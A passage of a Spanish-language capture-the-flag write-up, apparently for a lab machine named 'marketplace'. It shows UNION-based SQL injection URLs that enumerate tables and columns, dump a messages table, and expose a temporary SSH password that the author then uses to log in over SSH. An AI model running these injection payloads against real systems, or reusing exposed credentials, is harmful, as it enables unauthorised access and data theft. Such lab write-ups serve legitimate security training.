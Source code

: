 - Obtener nombres de tablas:

Para seguir indagando hacia abajo, podemos leer los nombres de las tablas dentro de las bases de datos haciendo uso de la tabla `table_name` dentro de `information_schema` sabiendo que el `table_schema` es `marketplace`, por lo tanto preparamos la siguiente consulta:

> `http://10.10.134.243/admin?user=-1 UNION SELECT 1,group_concat(table_name),3,4 FROM information_schema.tables WHERE table_schema='marketplace';-- -`

![image](https://user-images.githubusercontent.com/85322110/148672577-184335f3-8737-469c-9e0f-394a21ffb65e.png)

Esto nos devuelve tres tablas con `items`, `messages`, y `users`

- Obtener nombres de atributos:

En este caso nos enfocaremos en la tabla `messages` ya que al parecer es la unica que tiene informacion de interes. A continuacion buscaremos obtener los valores de `column_name` dentro de `information_schema` sabiendo que el `table_name` es `messages`, queda la siguiente consulta:

> `http://10.10.134.243/admin?user=-1 UNION SELECT 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_name='messages';-- -`

![image](https://user-images.githubusercontent.com/85322110/148672717-f95ef712-8c0d-44c7-a999-c63f55e17e55.png)

Esto nos devuelve los valores de `id`, `is_read`, `message_content`, `user_from`, `user_to`. Con esta informacion ya concluimos que nuestros valores de interes son `message_content`, `user_from`, `user_to` para los cuales intentaremos recuperar todos sus valores desde la tabla `messages` con la siguiente consulta:

> `http://10.10.134.243/admin?user=-1 UNION SELECT 1,group_concat(user_from,0x3a,user_to,0x3a,message_content),3,4 FROM messages;-- -`

![image](https://user-images.githubusercontent.com/85322110/148672903-7d729616-0161-4130-9657-801163ff7f46.png)

Como vemos arriba, no hace falta especificar la base de datos ya que se asume estamos trabajando dentro de ella, de igual forma es valido poner el formato full con `marketplace.messages`, tambien hemos utilizado `0x3a` dentro de la instruccion `group_concat()` que representa el simbolo de dos puntos `:` en hexadecimal, para separar los diferentes valores que nos encontramos.

Con la informacion obtenida, vamos de vuelta a nuestra consola y utilizamos el paquete `tr ',' '\n'` para reemplazar las comas que se usan para separar los atributos en saltos de linea y sean mas facil de leer:

![image](https://user-images.githubusercontent.com/85322110/148673128-148e3ebf-0ac9-4e66-9511-f1b70102b27f.png)

Vemos que el usuario 1 (admin) le envio al usuario 3 (jake) una clave temporal de SSH que es `@b_ENXkGYUCAv3zJ`, la guardamos por si acaso

![image](https://user-images.githubusercontent.com/85322110/148673163-c77155f8-3094-4789-80c0-17b7195b580b.png)

Y al probar logearnos en SSH con esa clave, funciona perfecta

> `ssh jake@10.10.134.243`

![image](https://user-images.githubusercontent.com/85322110/148673205-c9c6e411-1ab2-4c0c-86d5-4fade03aab73.png)
